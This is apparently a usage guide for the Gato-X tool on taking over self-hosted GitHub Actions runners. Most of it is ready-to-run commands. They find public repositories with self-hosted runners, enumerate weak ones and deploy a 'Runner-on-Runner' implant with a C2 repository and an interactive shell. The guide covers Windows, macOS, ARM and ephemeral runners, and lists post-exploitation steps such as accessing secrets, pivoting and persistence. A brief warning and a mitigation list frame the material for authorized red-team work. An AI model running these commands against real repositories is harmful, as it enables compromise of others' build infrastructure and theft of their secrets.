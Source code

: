 # Self-Hosted Runner Takeover

This guide explains how to use Gato-X to identify and exploit vulnerabilities in self-hosted GitHub Actions runners.

> **Warning**: These techniques should only be used with proper authorization and for ethical security research purposes.

## Understanding Self-Hosted Runner Vulnerabilities

Self-hosted runners can be vulnerable in several ways:

1. **Public Repository Runners**: Runners configured to run workflows from public repositories without approval requirements
2. **Fork Pull Request Vulnerabilities**: Runners that process pull requests from forks without proper restrictions
3. **TOCTOU Vulnerabilities**: Time-of-check to time-of-use vulnerabilities in workflow approval processes
4. **Misconfigured Permissions**: Runners with excessive permissions on the host system

## Identifying Vulnerable Runners

### Step 1: Search for repositories using self-hosted runners

```bash
gato-x s -sg -q 'runs-on: self-hosted file:.github/workflows/ lang:yaml' -oT self_hosted_repos.txt
```

### Step 2: Enumerate the repositories to identify vulnerable runners

```bash
gato-x e -R self_hosted_repos.txt -oJ runners.json | tee runners_output.txt
```

## Exploiting Vulnerable Runners with Runner-on-Runner (RoR)

The Runner-on-Runner technique involves deploying another GitHub Actions runner as an implant on an existing runner.

### Prerequisites

- A GitHub PAT with `repo`, `workflow`, and `gist` scopes
- The PAT should be for an account that is a contributor to the target repository

### Basic RoR Attack

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os linux --target-arch x64
```

This command:
1. Creates a C2 repository for command and control
2. Prepares payload files
3. Deploys the RoR implant
4. Provides an interactive shell upon successful connection

### Options for Different Runner Types

#### For Windows Runners

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os win --target-arch x64
```

#### For macOS Runners

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os osx --target-arch x64
```

#### For ARM-based Runners

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os linux --target-arch arm64
```

### Handling Ephemeral Runners

For ephemeral runners that are destroyed after each job:

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os linux --target-arch x64 --keep-alive
```

The `--keep-alive` flag keeps the workflow running, which can last up to 5 days on self-hosted runners.

## Advanced Attack Scenarios

### Manual Payload Deployment

For situations where you need to deploy the payload manually:

```bash
gato-x a --payload-only --target-os linux --target-arch x64 --c2-repo MyOrg/C2Repo
```

This generates the payload files without attempting to deploy them.

### Using an Existing C2 Repository

If you already have a C2 repository set up:

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os linux --target-arch x64 --c2-repo MyOrg/C2Repo
```

### Interacting with Existing Implants

To connect to runners that have already been compromised:

```bash
gato-x a --interact --c2-repo MyOrg/C2Repo
```

## Post-Exploitation

Once you have access to a self-hosted runner, you can:

1. Explore the runner environment
2. Access secrets available to the runner
3. Pivot to other systems on the same network
4. Establish persistence

## Mitigation Recommendations

If you identify vulnerable self-hosted runners in your organization:

1. Implement approval requirements for workflows from forks
2. Use ephemeral runners that are destroyed after each job
3. Apply the principle of least privilege to runner permissions
4. Isolate runners in containers or VMs
5. Implement network segmentation for runners
